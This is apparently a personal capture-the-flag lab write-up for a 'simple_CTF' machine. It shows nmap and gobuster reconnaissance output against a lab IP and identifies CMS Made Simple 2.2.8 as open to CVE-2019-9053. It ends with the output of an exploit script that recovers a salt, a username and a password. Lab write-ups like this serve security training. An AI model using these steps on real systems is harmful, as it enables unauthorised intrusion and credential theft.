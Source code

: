 ### simple_CTF

export IP: 10.10.170.151

Deploy the machine and attempt the questions!


How many services are running under port 1000?
- 2 

```
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/simple_CTF]
└─$ nmap -sC -sV -vv -oN nmap_results.txt 10.10.170.151
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-17 10:18 EDT
Scanned at 2022-08-17 10:18:31 EDT for 73s
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE REASON  VERSION
21/tcp   open  ftp     syn-ack vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.2.77.171
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCj5RwZ5K4QU12jUD81IxGPdEmWFigjRwFNM2pVBCiIPWiMb+R82pdw5dQPFY0JjjicSysFN3pl8ea2L8acocd/7zWke6ce50tpHaDs8OdBYLfpkh+OzAsDwVWSslgKQ7rbi/ck1FF1LIgY7UQdo5FWiTMap7vFnsT/WHL3HcG5Q+el4glnO4xfMMvbRar5WZd4N0ZmcwORyXrEKvulWTOBLcoMGui95Xy7XKCkvpS9RCpJgsuNZ/oau9cdRs0gDoDLTW4S7OI9Nl5obm433k+7YwFeoLnuZnCzegEhgq/bpMo+fXTb/4ILI5bJHJQItH2Ae26iMhJjlFsMqQw0FzLf
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBM6Q8K/lDR5QuGRzgfrQSDPYBEBcJ+/2YolisuiGuNIF+1FPOweJy9esTtstZkG3LPhwRDggCp4BP+Gmc92I3eY=
|   256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ2I73yryK/Q6UFyvBBMUJEfznlIdBXfnrEqQ3lWdymK
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 73.49 seconds
                                                                                                                      
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/simple_CTF]
└─$ 


```


What is running on the higher port?
- ssh

What's the CVE you're using against the application?
- CVE-2019-9053

- using gobuster, we can check that there is another page linking to a site:

```

┌──(kali㉿kali)-[~]
└─$ gobuster dir -u "http://10.10.170.151:80" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o /home/kali/ken/MoonShine/CTF/simple_CTF/http_enum.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.170.151:80
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/17 10:51:26 Starting gobuster in directory enumeration mode
===============================================================
/simple               (Status: 301) [Size: 315] [--> http://10.10.170.151/simple/]
Progress: 21282 / 220561 (9.65%)                                                 ^C
[!] Keyboard interrupt detected, terminating.
                                                                                  
===============================================================
2022/08/17 11:05:31 Finished
===============================================================
                                                                                                                      
┌──(kali㉿kali)-[~]
└─$ 

```

![[Pasted image 20220817110557.png]]

![[Pasted image 20220817110606.png]]

- upon checking on CMS Made Simple version 2.2.8, a vulnerability was found

![[Pasted image 20220817110644.png]]

---

new machine IP: 10.10.134.118

10.10.134.118

Using the enumeration acquired:

nmap - found port 80
gobuster - found /simple and CMS Made Simple version 2.2.8,
google - found  CVE-2019-9053

we can check that there is a python script for exploit. We will use that:

```

┌──(kali㉿kali)-[~]
└─$ cd ken/CVE-2019-9053           
                                                                                                                       
┌──(kali㉿kali)-[~/ken/CVE-2019-9053]
└─$ ls
exploit.py  README.md
                                                                                                                       
┌──(kali㉿kali)-[~/ken/CVE-2019-9053]
└─$ 


[+] Salt for password found: 1dac0d92e961
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01wk
                                                                                                                       
┌──(kali㉿kali)-[~/ken/CVE-2019-9053]
└─$ 


```

